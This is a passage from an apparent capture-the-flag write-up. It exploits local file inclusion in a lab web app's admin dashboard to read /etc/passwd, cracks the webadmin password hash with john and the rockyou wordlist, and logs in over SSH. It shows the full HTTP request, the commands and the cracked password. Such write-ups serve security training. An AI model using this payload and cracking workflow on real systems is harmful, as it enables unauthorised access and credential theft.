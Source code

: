 `§log_01.txt§` replaced with the relative paths above.
That should have covered a web application 7 layers deep.

```text
POST /admin/dashboard.php?page=log HTTP/1.1
Host: 192.168.107.101
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.107.101
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.107.101/admin/dashboard.php?page=log
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh
Connection: close

file=§log_01.txt§
```

This was successful in displaying the contents of the `/etc/password` file.

{{< figure src="/ox-hugo/potato_lfi-passwd.png" caption="<span class=\"figure-number\">Figure 2: </span>LFI display of `/etc/passwd`" >}}

At the bottom of the file is the `webadmin` hash.
This was already in the correct format to feed into `john` to crack the hash.

```bash
echo 'webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash' > /tmp/crack
$(cd /tmp; tar -xzf /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz)
john --wordlist=/tmp/rockyou.txt /tmp/crack
```

```text
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
dragon           (webadmin)
1g 0:00:00:00 DONE (2022-01-20 01:38) 100.0g/s 19200p/s 19200c/s 19200C/s 123456..november
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

So the password for the `webadmin` user was `dragon`.
That username and password combination was used against the `ssh` service running on port 22.

```text
kali@kali-vm:/tmp$ ssh webadmin@$ip

webadmin@serv:~$ whoami
webadmin
```
